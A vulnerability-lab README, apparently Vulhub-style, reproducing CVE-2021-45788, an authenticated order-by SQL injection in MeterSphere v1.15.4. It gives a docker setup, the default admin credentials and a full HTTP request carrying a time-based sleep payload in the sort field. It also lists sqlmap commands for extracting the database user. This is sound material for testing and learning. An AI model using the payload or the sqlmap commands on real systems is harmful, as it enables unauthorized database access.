


# MeterSphere v1.15.4 Authenticated SQL Injection (CVE-2021-45788)

[中文版本(Chinese version)](README.zh-cn.md)

MeterSphere is a one-stop open source continuous testing platform under the GPL v3 open source license.

In the version v1.15.4 and before, MeterSphere's testcase related APIs have order-by based SQL injection.

References:

- <https://github.com/metersphere/metersphere/issues/8651>

## Vulnerable environment

Execute following command to start a MeterSphere server v1.15.4:

```
docker compose up -d
```

After the server is fully initialized, you can see the login page of MeterSphere on `http://your-ip:8081`.

## Exploit

Firstly, login to the panel by username `admin` and password `metersphere`.

Add a new testcase at `http://your-ip:8081/#/track/case/all`:



Then, send the following request to test if SQL injection exists (replace csrf token and session id with yours):

```
POST /test/case/list/1/10 HTTP/1.1
Host: localhost.lan:8081
Content-Length: 3142
Accept: application/json, text/plain, */*
CSRF-TOKEN: [Your CSRF Token]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: MS_SESSION_ID=[Your Session ID]
Connection: close

{"orders":[{"name":"name","type":",if(1=1,sleep(2),0)"}],"components":[{"key":"name","name":"MsTableSearchInput","label":"commons.name","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"tags","name":"MsTableSearchInput","label":"commons.tag","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"module","name":"MsTableSearchInput","label":"test_track.case.module","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"priority","name":"MsTableSearchSelect","label":"test_track.case.priority","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"P0","value":"P0"},{"label":"P1","value":"P1"},{"label":"P2","value":"P2"},{"label":"P3","value":"P3"}],"props":{"multiple":true}},{"key":"createTime","name":"MsTableSearchDateTimePicker","label":"commons.create_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"updateTime","name":"MsTableSearchDateTimePicker","label":"commons.update_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"creator","name":"MsTableSearchSelect","label":"api_test.creator","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"},{"label":"commons.adv_search.operators.current_user","value":"current user"}]},"options":{"url":"/user/list","labelKey":"name","valueKey":"id"},"props":{"multiple":true}},{"key":"reviewStatus","name":"MsTableSearchSelect","label":"test_track.review_view.execute_result","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"test_track.review.prepare","value":"Prepare"},{"label":"test_track.review.pass","value":"Pass"},{"label":"test_track.review.un_pass","value":"UnPass"}],"props":{"multiple":true}}],"filters":{"reviewStatus":["Prepare","Pass","UnPass"]},"planId":"","nodeIds":[],"selectAll":false,"unSelectIds":[],"selectThisWeedData":false,"selectThisWeedRelevanceData":false,"caseCoverage":null}
```

As you can see, a 2 seconds sleep successful:



Use SQLMap to retrieve the database username:

```
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3 --current-user
```


